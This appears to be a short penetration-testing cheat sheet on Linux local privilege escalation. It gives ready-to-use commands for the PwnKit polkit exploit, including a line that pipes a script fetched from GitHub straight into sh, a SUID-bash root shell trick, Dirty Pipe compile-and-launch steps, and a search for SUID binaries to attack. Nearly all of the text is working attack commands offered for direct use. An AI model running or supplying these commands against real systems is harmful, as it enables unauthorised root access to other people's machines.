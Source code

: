 ```yaml
---
title: Linux LPE
author: asphixie
date: 2023-03-10 20:55:00 +0800
categories: [Linux, Privilege Escalation]
pin: true
---
```


## CVE-2021-4034 : Polkit privilege escalation exploit
Many PoCs on internet. This one can be used easily, downloading it on Internet : 
```bash
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```
More information on : https://github.com/ly4k/PwnKit

## CVE-2021-3156 : Sudo Baron Samedit exploit
Based on <https://github.com/redhawkeye/sudo-exploit>
Adding SUID to bash if you can control a binary/script launched by root :
```bash
chmod +s /bin/bash
/bin/bash -p
```

## CVE-2022-0847 : Dirty Pipe
Based on <https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits>. Start with compile :
```bash
./compile.sh
```
Then launch the exploit :
```bash
./exploit-1
```
If doesn't works, try to find SUID binaries (sudo for example) :
```bash
find / -perm -4000 2>/dev/null
./exploit-2 /usr/bin/sudo
```
